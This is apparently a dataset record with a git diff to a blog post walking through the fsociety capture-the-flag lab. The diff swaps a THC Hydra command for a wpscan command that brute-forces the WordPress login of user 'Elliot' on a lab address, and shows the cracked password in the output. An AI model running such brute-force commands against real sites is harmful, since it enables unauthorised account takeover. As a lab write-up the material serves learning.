

Before and after one commit to blackdoor/blog, a Jekyll site: the page built from _posts/2016-08-06-hacking-fsociety.md, in a window 1280 px wide and 900 px high, scrolled down 2898 px. Shown: the top 829 px of the window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added stuff

````diff
--- a/_posts/2016-08-06-hacking-fsociety.md
+++ b/_posts/2016-08-06-hacking-fsociety.md
@@ -130,21 +130,27 @@
 ```
 
 Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
-username in the .dic file) we can attempt to crack the WordPress login. I'll be
-using THC Hydra to do my web cracking, which means to properly format our Hydra
-commands we'll need to get the login request parameters. I'll use Burp Suite for
-this task. If you're not familiar with Burp, read up on its basic usage [here](https://portswigger.net/burp/help/)
-before trying this. In essence, we proxy our web browser through the localhost on
-port 8080 (the default for Burp), then attempt a login. Burp will intercept the
-request/response traffic, and allow us to see the login form's internals. What we're
-really looking for is the method (usually POST), the form parameters, and the failure
-response. With all of this information assembled, we can construct our hydra command:
+username in the .dic file) we can attempt to bruteforce the WordPress login. I'll be
+using the wpscan tool for my web cracking.
 
 ```shell
-root@bento~# hydra 10.0.2.10 http-form-post "/wp-login.php:user_login=^USER^&user_pass=^PASS^:lostpassword" -l Elliot -P fsocity_sorted.dic -t 10
+root@bento:~# wpscan -u http://10.0.2.10/ --wordlist fsocity_sorted.dic --username Elliot
+  Brute Forcing 'Elliot': |===================================
+  [+] [SUCCESS] Login : Elliot Password : ER28-0652
+
+  Brute Forcing 'Elliot': |===================================
+  +----+--------+------+-----------+
+  | Id | Login  | Name | Password  |
+  +----+--------+------+-----------+
+  |    | Elliot |      | ER28-0652 |
+  +----+--------+------+-----------+
+
+[+] Finished: Mon Aug  8 12:57:26 2016
+[+] Requests Done: 7853
+[+] Memory used: 11.816 MB
+[+] Elapsed time: 00:02:09
 ```
 
-From Burp, we have 'user_login' and 'user_pass' as the form params, and 'lostpassword'
-as the failure message.
+Input the credentials into the login form... and we're in.
 
 -TC
````
